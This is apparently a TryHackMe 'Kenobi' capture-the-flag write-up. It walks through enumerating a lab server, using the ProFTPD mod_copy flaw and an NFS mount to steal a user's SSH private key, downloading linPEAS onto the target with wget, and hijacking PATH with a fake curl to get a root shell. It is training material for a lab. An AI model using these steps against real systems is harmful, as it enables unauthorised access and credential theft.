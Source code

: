 # Kenobi

##### Written: 28/08/2020

**IP Address: 10.10.243.180**

I first tried to visit the given IP address using my web browser to see if it hosted any website. I was greeted with the following website (Port 80 is open for HTTP):

<img style="float: left;" src="screenshots/screenshot1.png">

To enumerate the server information, I then tried accessing random directories to see if any server information and port information can be found. Surely enough, trying **"**[**http://10.10.243.180/admin**](http://10.10.243.180/admin)**"** gave us a page that told us that the server was an **Apache/2.4.18 (Ubuntu) Server** running at 10.10.243.180 Port 80!

Next, I ran an nmap scan on the server. I ran two nmap scans at one time, a thorough one that scans all ports (which takes a long time), as well as a faster one that only scans the top 1000 ports. The commands used are as follows:

```
### Thorough
nmap -sV -p- -vv 10.10.243.180

### Quick
nmap -sV -vv 10.10.243.180
```



While I left the thorough nmap scan running in the background, I analyzed the results of the Quick nmap scan, which told me that ports **21 (ftp), 22 (ssh), 80 (http), 111 (Remote Procedure Call), 139 (samba), 445 (samba) and 2049 (rpc)** were open.  

While the room suggests that exploitation of the server would most probably be done through ftp or samba exploitation, I decided to use **gobuster** to see if there are any hidden directories that can be enumerated. The command used is 

```
gobuster dir -u http://10.10.243.180 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

I doubt there will be any useful directories found, but I've learnt that it is always good to check just in case!



While previously, I learned to enumerate samba shares using a tool, **enum4linux,** this time, I used nmap scripts to do the enumeration. The command used is:

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.243.180
```

**Port 445** was specified as it is the port that hosted samba. The results are as follows:

<img style="float: left;" src="screenshots/screenshot2.png">

As we can see, 3 shares were enumerated, **IPC$, anonymous and print$**. By using **smbclient**, I tried logging into the "**anonymous**" share, and it allowed me to do so without requiring any authentication! 



Using the command **ls** revealed that there was a **log.txt** file:

<img style="float: left;" src="screenshots/screenshot3.png">



The "**log.txt**" file was just a basic ProFTPD configuration file, which gave us a lot of interesting and potentially useful information about the server. The port that FTP was running on was port **21**.

Now we have to make use of port **111**, which hosts **RPC**. 

*Remote Procedure Call (RPC) is a protocol that one program can use to request a service from a program located in another computer on a network without having to understand the network's details. RPC is used to call other processes on the remote systems like a local system. A procedure call is also sometimes known as a function call or a subroutine call.*



In our case, port 111 is access to a network file system. So I could use nmap to enumerate it with specific scripts:

```
 nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.243.180
```

<img style="float: left;" src="screenshots/screenshot4.png">

Hence, we can see that **/var** is a mount!

I can use **netcat** to connect to the machine on its ftp port! This can be done via:

```
nc 10.10.243.180 21
```



With that, I successfully connected to the ftp server.

I then used a tool called **searchsploit**, which is just a command-line search tool for exploit-db, to find exploits for proftpd 1.3.5. It gave me 3 possible exploits that could be used! The command is:

```
searchsploit proftpd 1.3.5
```

<img style="float: left;" src="screenshots/screenshot5.png">



The mod_copy module implements **SITE CPFR** and **SITE CPTO** commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

From the **log.txt** file earlier, I know that the **id_rsa** file of user, **kenobi,** can be found in **/home/kenobi/.ssh/id_rsa**. With knowledge of the mount point, **/var**, I can mount my local computer to the machine, and use that to obtain the **id_rsa** file. This will then allow me to access the machine via **ssh** as user kenobi!



To do this, first, I used the **SITE CPFR** and **SITE CPTO** commands to copy the id_rsa file from kenobi's home folder to the **/var/tmp** folder. 

<img style="float: left;" src="screenshots/screenshot6.png">



Next, I created a directory in my local computer's /mnt directory, using:

```
sudo mkdir /mnt/kenobiNFS
```

I then mounted the **/var** directory onto my local computer using:

```
sudo mount MACHINE_IP:/var /mnt/kenobiNFS
```

From there, I could just navigate to the **/tmp** folder and obtain the **id_rsa** file.

<img style="float: left;" src="screenshots/screenshot7.png">



I then copied the id_rsa file over to my desktop, changed its permissions to be read and write by owner only, using 

```
chmod 600 id_rsa
```

I could then ssh into the machine with the rsa key:

```
ssh kenobi@10.10.243.180 -i id_rsa
```

 

#### With that, I obtained the flag from "user.txt", which was located in the home directory of the user kenobi.



---

Next is privilege escalation. In this case, Path Variable Manipulation will be exploited with SUID binaries. The TryHackMe room taught me to use the command:

```
find / -perm -u=s -type f 2>/dev/null
```

to find any out-of-the-ordinary files. 

However, I decided to use another  privilege-escalation script, **linPEAS,** to speed things up! 

On my local computer, I hosted a simple HTTP server using Python's in-built server. I first cd'ed into the linPEAS directory, which contained the **linpeas.sh** file that I wanted to send over to the machine. I then started the server using: 

```
python3 -m http.server
```

This creates a server at the default port **8000**. 

In the victim machine, I used

```
wget http://<YOUR IP_HERE>/linpeas.sh
```

After successfully downloading, I just had to make it an executable before I could run it! 



After running linpeas, I noticed that there was an interesting file that had its SUID bit set => **/usr/bin/menu**:

<img style="float: left;" src="screenshots/screenshot8.png">



Upon running the menu binary, I came across some interesting options:

<img style="float: left;" src="screenshots/screenshot9.png">

It would seem as if the binary just allowed us to run certain commands from within it. However, the important thing to note is that we would be running the commands as **ROOT** (due to the SUID bit being set) .

Using the command "**strings**", which allows us to look for human-readable strings on a binary, in this case, on **menu,** 

<img style="float: left;" src="screenshots/screenshot10.png">

it tells us that the commands run in the binary are done without using their full paths. (e.g. not using /usr/bin/curl or /usr/bin/uname)

Hence, we can manipulate our **PATH** to gain a root shell.

First, copy the **/bin/sh** shell into a new file called **curl**. Give it the proper permissions (**777**), then put its location into our **PATH**. Since when the /usr/bin/menu binary is run, its using our path variable to find the "curl" binary, it will run the "curl" binary that we created earlier on,which is actually a version of **/usr/sh**. Thus a shell will be opened as root, which means that we have successfully escalated our privileges.

<img style="float: left;" src="screenshots/screenshot11.png">

*(Example given in TryHackMe)*

Hence, when I run the menu binary and run option 1, which uses the "curl" binary that I created earlier on, I will be able to gain access to a root shell as root.

<img style="float: left;" src="screenshots/screenshot12.png">



#### With that, I obtained the flag from "root.txt", which was located in the home directory of the root user.





